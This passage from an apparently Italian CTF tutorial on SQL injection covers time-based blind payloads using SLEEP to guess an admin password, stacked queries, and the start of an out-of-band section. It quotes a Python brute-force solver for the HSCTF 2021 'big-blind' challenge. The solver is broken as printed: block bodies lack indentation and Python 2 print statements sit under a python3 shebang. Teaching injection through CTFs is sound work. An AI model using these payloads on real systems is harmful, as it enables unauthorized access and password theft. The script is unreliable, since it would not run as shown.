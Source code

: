 `Christian_C' UNION SELECT CASE WHEN (username='admin' AND password LIKE 'a%') THEN SLEEP(5) ELSE 1 END FROM users -- `. Se la prima lettera della password dell'admin è `a`, la risposta ci arriverà con 5 secondi di ritardo. 

#### Esempio challenge: big-blind HSCTF 2021 risolta da [bluebear](https://github.com/MOCSCTF/CTF-Write-UP/blob/master/Web/HSCTF8%20-%20big-blind/README.md)
```py
#!/usr/bin/env python3
import requests
import sys

def blind(query):
    url = "https://big-blind.hsc.tf/"
    response = requests.post(url, data={"user":"" +query+ ",sleep(5),0) #","pass":""})
    
    if(response.elapsed.total_seconds()>3):
    print query
    return 'Found'

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE '"
flag = ""
while True:
    for x in range(1,28):
        print x
        for k in keyspace:
        # query = admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE 'flag%'),sleep(10),0) #
        query = query_left_side + flag + k + "%')"
        response = blind(query)

        if response == 'Found':
            flag += k
            break

        if k == '+':
            flag += '_'
```

### Batched/stacked queries
Nelle injection precedenti, siamo sempre rimasti "coerenti" con la query scelta dal programmatore. Trovando nel codice sempre `SELECT`, non abbiamo fatto altro che esfiltrare dati "allungando" l'istruzione. È pero possibile il `;` per terminare l'istruzione, permettendo così di inserire poi qualsiasi tipo di istruzioni, comprese `DELETE`, `UPDATE` (aggiorna), `INSERT` (crea).

Nel nostro caso sarà utile il caso opposto: potremmo voler chiudere un'`UPDATE` per injectare una `SELECT`, in modo da rubare la flag.

### Out of band SQLi
Se non è presente alcun output sincrono, ma è permessa l'esecuzione di comandi, possiamo optare per una out-of-band SQLi. In MySQL:
